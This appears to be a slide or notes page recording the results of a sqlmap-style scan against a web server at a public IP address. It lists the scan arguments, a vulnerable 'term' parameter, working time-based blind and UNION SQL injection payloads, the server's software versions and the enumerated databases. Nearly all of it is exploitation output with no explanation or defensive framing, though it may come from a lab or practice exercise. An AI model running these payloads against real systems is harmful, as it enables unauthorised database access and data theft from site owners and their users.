

# Found Information
-u http://54.189.124.94 --dbs --forms --crawl=2

http://54.189.124.94/index.php?term=

Found vulnerabilities
 Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: term=' AND (SELECT 3494 FROM (SELECT(SLEEP(5)))KlpX) AND 'KfTv'='KfTv

 Type: UNION query
    Title: Generic UNION query (NULL) - 5 columns
    Payload: term=' UNION ALL SELECT CONCAT(0x7170767171,0x644d7a4545565869414666654268484668626e576b6242417963546d6a4d4e4b6c5054504c785566,0x71717a7171),NULL,NULL,NULL,NULL-- -

OS Windows 8.1 or 2012 R2
Microsoft IIS 8.5, PHP 7.0.5
MYSQL >= 5.0.12

Found databases
azdummy
information_schema

http://54.189.124.94/login.php
No found injectable parameters